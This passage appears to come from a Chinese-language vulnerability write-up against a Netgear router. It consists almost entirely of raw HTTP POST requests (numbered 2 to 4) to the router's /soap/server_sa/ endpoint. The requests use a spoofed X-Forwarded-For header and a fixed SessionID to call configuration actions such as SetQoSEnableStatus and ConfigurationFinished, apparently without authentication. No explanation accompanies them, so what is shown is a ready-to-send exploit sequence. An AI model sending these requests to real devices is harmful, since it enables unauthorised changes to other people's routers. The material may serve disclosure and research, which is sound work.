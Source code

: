 请求2:

```
POST /soap/server_sa/ HTTP/1.1
SOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SetQoSEnableStatus
X-Forwarded-For: 192.168.1.1



&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;soap:Envelope&gt;
   &lt;soap:Header&gt;
     &lt;SessionID&gt;424F474F4E424F474F4E&lt;/SessionID&gt;
  &lt;/soap:Header&gt;
  &lt;soap:Body&gt;
    &lt;M1:SetQoSEnableStatus&gt;
    &lt;NewQoSEnable&gt;1&lt;/NewQoSEnable&gt;
    &lt;/M1:SetQoSEnableStatus&gt;
  &lt;/soap:Body&gt;
&lt;/soap:Envelope&gt;

```

请求3:

```
POST /soap/server_sa/ HTTP/1.1
SOAPAction: urn:NETGEAR-ROUTER:service:AdvancedQoS:1#SetQoSEnableStatus
X-Forwarded-For: 192.168.1.1



&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;soap:Envelope&gt;
   &lt;soap:Header&gt;
      &lt;SessionID&gt;424F474F4E424F474F4E&lt;/SessionID&gt;
  &lt;/soap:Header&gt;
  &lt;soap:Body&gt;
      &lt;M1:SetQoSEnableStatus&gt;
      &lt;NewQoSEnable&gt;1&lt;/NewQoSEnable&gt;
      &lt;/M1:SetQoSEnableStatus&gt;
  &lt;/soap:Body&gt;
&lt;/soap:Envelope&gt;

```

请求4:

```
POST /soap/server_sa/ HTTP/1.1
SOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#ConfigurationFinished
X-Forwarded-For: 192.168.1.1



&lt;?xml version="1.0" encoding="utf-8" standalone="no"?&gt;
&lt;SOAP-ENV:Envelope&gt;
&lt;SOAP-ENV:Header&gt;
&lt;SessionID&gt;424F474F4E424F474F4E&lt;/SessionID&gt;
&lt;/SOAP-ENV:Header&gt;
&lt;SOAP-ENV:Body&gt;
&lt;M1:ConfigurationFinished&gt;
  &lt;NewStatus&gt;ChangesApplied&lt;/NewStatus&gt;
&lt;/M1:ConfigurationFinished&gt;
&lt;/SOAP-ENV:Body&gt;
&lt;/SOAP-ENV:Envelope&gt;

```